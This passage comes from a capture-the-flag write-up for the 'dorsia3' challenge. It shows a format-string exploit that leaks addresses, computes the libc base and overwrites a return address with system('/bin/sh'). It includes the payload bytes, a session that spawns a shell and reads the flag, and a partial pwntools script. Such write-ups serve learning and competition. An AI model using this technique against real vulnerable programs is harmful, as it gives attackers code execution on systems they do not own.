 I decided to do the writes in word granularity and I manipulated the order as I needed to save some space in the buffer.
(I knew the more significant bytes of `system` and `/bin/sh` will be close).

And finally:

```
[+] Opening connection to dorsia3.wpictf.xyz on port 31338: Done
[|] Leaked buffer at: 0xffd19afb
[|] Computed libc at: 0xf1a28000
b'%61862c%19$hn%20c%20$hn%24646c%21$hn%3791c%22$hnAn\x9b\xd1\xffv\x9b\xd1\xffl\x9b\xd1\xfft\x9b\xd1\xff'
65
[|] Sending payload: b'%61862c%19$hn%20c%20$hn%24646c%21$hn%3791c%22$hnAn\x9b\xd1\xffv\x9b\xd1\xffl\x9b\xd1\xfft\x9b\xd1\xff'
[*] Switching to interactive mode
$ cat flag.txt
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```

### Exploit Listing
Here's the exploit listing, also available as `.py` in the writeup directory. It's not too nice piece of code, full of 'magical' constants. At least I tried to explain them with comments.

```python
from pwn import *

bin_sh_offset = 0x0017e0cf # remote
system_offset = 0x0003d200 # remote 


def perform_writes(where1, system, where2, bin_sh):
    """
    we want to write system to ret_addr and /bin/sh address to ret_addr + 8
    ret_addr computed from buf_addr
    /bin/sh computed from buf_addr
    """

    system_upper = system >> 16
    system_lower = system & 0xffff
    bin_sh_upper = bin_sh >> 16
    bin_sh_lower = bin_sh & 0xffff

    
    payload = b'%'
    payload += str(system_upper).encode('ascii')
    payload += b'c%19$hn%'
    num_written = system_upper
    next_write = (bin_sh_upper - num_written) % 2**16
    payload += str(next_write).encode('ascii')
    payload += b'c%20$hn%'
    num_written = (num_written + next_write) % 2**16
    next_write = (system_lower - num_written) % 2**16
    payload += str(next_write).encode('ascii')
    payload += b'c%21$hn%'
    num_written = (num_written + next_write) % 2**16
    next_write = (bin_sh_lower - num_written) % 2**16
    payload += str(next_write).encode('ascii')
    payload += b'c%22$hn'
    
    payload += (49 - len(payload))*b'A' # the write destinations need to be aligned
    
    payload += p32(where1 + 2)
    payload += p32(where2 + 2)
    payload += p32(where1)
```